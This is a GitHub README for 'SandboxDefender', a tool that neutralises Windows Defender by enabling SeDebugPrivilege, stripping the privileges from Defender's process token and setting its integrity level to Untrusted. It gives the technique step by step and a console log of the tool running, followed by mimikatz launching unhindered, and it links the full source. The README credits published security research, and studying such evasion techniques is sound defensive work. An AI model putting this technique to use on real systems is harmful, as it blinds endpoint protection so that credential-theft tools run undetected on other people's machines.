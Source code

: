 # Sandbox Defender

Sandboxing Defender (and probably other AV/EDRs) using Security Token manipulation.

If you do use any of the code in these repositories **keep it legal!**

# Introduction

This code was written after reading [Sandboxing Antimalware Products for Fun and Profit](https://elastic.github.io/security-research/whitepapers/2022/02/02.sandboxing-antimalware-products-for-fun-and-profit/article/) by **Elastic Security Research**. I am a little bit late to the party it would seem, the article was made public on the 02/02/22 (3 days ago as of writing), and [Martin Ingesens' TokenStomp](https://github.com/MartinIngesen/TokenStomp) was posted 04/02/22. MUST code faster!

Anyway, writing this code was fun.

The technique is very simple:

- Enable the `SeDubgPrivilege` in our process security token.
- Get a handle to Defender using `PROCESS_QUERY_LIMITED_INFORMATION`.
- Get a handle to the Defender token using `TOKEN_ALL_ACCESS`.
- Disable all privileges in the token using `SetPrivilege`
- Set the Defender token Integrity level to Untrusted.
- Do bad things... legally of course!

The main part of the code is [here](https://github.com/plackyhacker/SandboxDefender/blob/main/SandboxDefender/Program.cs)

# Example

Execution of the code is shown below (then executing mimikatz after defender is sandboxed):

```
.\SandboxDefender.exe
[+] Getting a token handle for this process.
[+] Token handle: 0x2EC
[+] Enabling SeDebugPrivilege.
[+] SeDebugPrivilege enabled.
[+] Defender PID: 5212
[+] Getting a process handle for Defender.
[+] Process handle: 0x2F0
[+] Getting a token handle for the Defender process.
[+] Token handle: 0x2F4
[+] Will disable Defender privileges.
[+] Will set Defender Integrity to Untrusted.
[+] Done... Have a nice day!

.\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz #
```

# Nice Pictures

This is Defender before the sandboxing (in Process Hacker):

![pre](https://github.com/plackyhacker/SandboxDefender/blob/main/images/pre.png?raw=true)

This is Defender after the sandboxing (in Process Hacker):

![pre](https://github.com/plackyhacker/SandboxDefender/blob/main/images/post.png?raw=true)
